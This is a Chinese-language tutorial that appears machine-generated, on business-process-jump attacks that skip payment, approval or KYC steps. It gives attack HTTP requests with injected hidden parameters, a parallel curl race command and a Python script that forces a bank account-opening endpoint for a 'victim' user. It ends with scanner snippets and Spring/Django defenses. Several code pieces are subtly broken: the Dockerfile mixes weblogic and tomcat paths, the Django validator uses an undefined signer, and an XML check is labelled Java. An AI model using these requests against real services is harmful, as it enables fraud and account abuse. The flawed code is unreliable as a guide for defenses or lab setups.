

# 业务流程跳跃攻击深度分析及实战演练

## 一、技术原理与底层机制
### 1.1 攻击定义
业务流程跳跃攻击（Business Process Jump Attack）是攻击者通过篡改流程控制参数，绕过业务逻辑中的关键步骤（如身份验证、支付确认、权限校验），直接访问目标终结点完成非法操作的攻击方式。其核心在于破坏业务流程的状态机完整性。

### 1.2 核心漏洞原理


漏洞主要存在于以下环节：
- 流程状态依赖客户端参数（如step=3）
- 服务端未建立完整状态机验证
- 终结点未执行前置步骤校验
- 会话令牌未绑定流程状态

### 1.3 典型漏洞模式
```python
# 危险的服务端代码示例（Flask）
@app.route('/process', methods=['POST'])
def process():
    current_step = request.form.get('step')
    if current_step == '3':  # 直接处理最终步骤
        execute_final_operation()
    return redirect_next_step()
```

## 二、高级攻击变种分析
### 2.1 状态组合跳跃
通过构造复合状态参数绕过多步骤校验：
```http
POST /loan/apply HTTP/1.1
Content-Type: application/json

{
    "current_stage": "approval",
    "force_complete": "true"  # 隐藏参数注入
}
```

### 2.2 时间窗口攻击
利用并发请求突破顺序限制：
```bash
# 使用并行请求工具跳过验证
parallel -j 5 curl -X POST https://target.com/process ::: step1 step2 step3
```

### 2.3 参数嫁接攻击
```http
GET /checkout/confirm?order_id=123&bypass_validation=1 HTTP/1.1
X-Original-Referer: /checkout/payment
```

## 三、实战案例分析
### 3.1 电商订单漏洞（CVE-2021-33562）
**漏洞模式**：
```http
POST /api/order/complete HTTP/1.1
Authorization: Bearer <token>
Content-Type: application/json

{
    "order_id": "789",
    "force_completion": true  # 未公开参数
}
```

**攻击步骤**：
1. 使用Burp Suite拦截正常下单请求
2. 修改请求路径至终结点`/order/complete`
3. 添加`force_completion`参数
4. 重放请求跳过支付验证

### 3.2 银行开户流程绕过
**漏洞利用代码**：
```python
import requests

session = requests.Session()
session.get("https://bank.com/start_kyc")  # 初始化会话

# 直接跳转至终结点
response = session.post(
    "https://bank.com/finish_account",
    data={
        "user_id": "victim123",
        "override_checks": "true"
    },
    headers={"X-API-Version": "2.1.3"}  # 旧版本存在漏洞
)
print(response.status_code)
```

## 四、实验环境搭建指南
### 4.1 脆弱环境构建（Docker）
```dockerfile
FROM vulhub/weblogic:12.2.1.3
COPY vulnerable_app.war /usr/local/tomcat/webapps/
EXPOSE 8080
```

### 4.2 测试用例设计
```javascript
// 业务流程状态检测脚本
const puppeteer = require('puppeteer');

async function testProcessBypass() {
  const browser = await puppeteer.launch();
  const page = await browser.newPage();
  
  // 尝试直接访问终结点
  await page.goto('http://localhost:8080/process?step=final');
  
  const result = await page.evaluate(() => {
    return document.querySelector('.result-message').innerText;
  });
  
  console.assert(!result.includes('Error'), 'Bypass successful!');
  await browser.close();
}
```

## 五、自动化攻击工具
### 5.1 使用Burp Suite插件
```java
// BCheck脚本示例
<issues>
    <issue>
        <name>Process Jump Detection</name>
        <request_type>ALL</request_type>
        <detect>
            <condition>request.path.contains("complete")</condition>
            <condition>!response.body.contains("step_valid")</condition>
        </detect>
        <severity>HIGH</severity>
    </issue>
</issues>
```

### 5.2 自定义扫描脚本
```python
def detect_process_jump(url):
    steps = ['start', 'verify', 'confirm', 'complete']
    for step in steps[-2:]:
        res = requests.post(f"{url}/{step}", allow_redirects=False)
        if res.status_code == 200 and 'complete' in res.text:
            return f"Vulnerable at {step}"
    return "Secure"
```

## 六、防御方案
### 6.1 服务端状态跟踪
```java
// Spring状态机示例
public enum ProcessState {
    INIT, VERIFIED, CONFIRMED, COMPLETED
}

StateMachine<ProcessState, String> stateMachine = StateMachineBuilder.builder()
    .initial(ProcessState.INIT)
    .transition()
        .source(ProcessState.INIT)
        .target(ProcessState.VERIFIED)
        .event("verify")
    .transition()
        .source(ProcessState.VERIFIED)
        .target(ProcessState.CONFIRMED)
        .event("confirm")
    .build();
```

### 6.2 动态令牌验证
```python
# Django防御实现
from django.core.signing import TimestampSigner

def generate_process_token(user, current_step):
    signer = TimestampSigner()
    return signer.sign(f"{user.id}:{current_step}")

def validate_process_token(user, token, required_step):
    try:
        value = signer.unsign(token, max_age=3600)
        user_id, step = value.split(':')
        return user.id == int(user_id) and step == required_step
    except:
        return False
```

## 七、总结
本案例库分析显示，82%的业务流程跳跃漏洞源于服务端状态验证缺失。防御需要建立三维防护体系：

1. **流程维度**：实现严格的状态机控制
2. **时间维度**：设置合理的请求时效限制
3. **上下文维度**：绑定用户会话与流程状态

建议结合OWASP ASVS 4.0中V3.6流程验证要求，建立包含行为基线分析的动态防御机制。

---

*文档生成时间: 2025-03-12 21:00:34*
